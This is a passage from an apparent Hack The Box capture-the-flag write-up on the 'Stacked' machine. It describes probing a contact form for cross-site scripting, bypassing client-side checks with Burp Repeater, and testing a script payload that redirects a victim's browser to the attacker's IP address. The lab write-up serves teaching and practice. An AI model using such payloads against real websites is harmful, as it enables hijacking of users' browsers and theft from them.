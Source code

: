 

Each of those 301s just redirects to adding `/` to the end and a 403 in
return.

## Identify LocalStack VHost

### Identify XSS

#### Strategy

This is a cross-site scripting challenge that is quite difficult to
identify, and the kind of thing that only belongs in the Insane level on
a HTB machine. Given that I only have one real way to interact with the
site at this point, I'll focus on the contact form on
portfolio.stacked.htb.

When I submit the form, there's nothing displayed back to me, but rather
it's somehow transmitted to a potential user of the site. Thinking about
ways to interact with the user, two come to mind:

-   Sending a link to a page I'm hosting, and using various methods to
    exploit the user from there.
-   Sending kind of cross-site scripting (XSS) payload that will be
    handled as HTML/JS on the receiving end, allowing me to run
    JavaScript and get the browser to take actions on my behalf.

#### Links

I'll submit various kinds of links to the form. The phone number and
email fields have tight restrictions, so I can't place a link in them.
But I'll try the rest. For example:

![](/img/image-20210824105617868.png)

I'll also go into Burp and forward this request to Repeater. There I can
get past the client-side filtering and send links in the other fields.

With a Python webserver watching for any contact, none comes.

#### XSS Fails

Turning to XSS, I tried started with a basic payload that would just
redirect the page to my server:



    <script>document.location="http://10.10.14.6/referer"</script>



On submitting, it pops an error:

![](/img/image-20210824111614093.png)

There's two ways to get around an error like this. One would be to try
to bypass the filter with creative payloads that don't trigger the
filter but still execute JavaScript I provide. Unfortunately, I wasn't
able to find any way to do that.
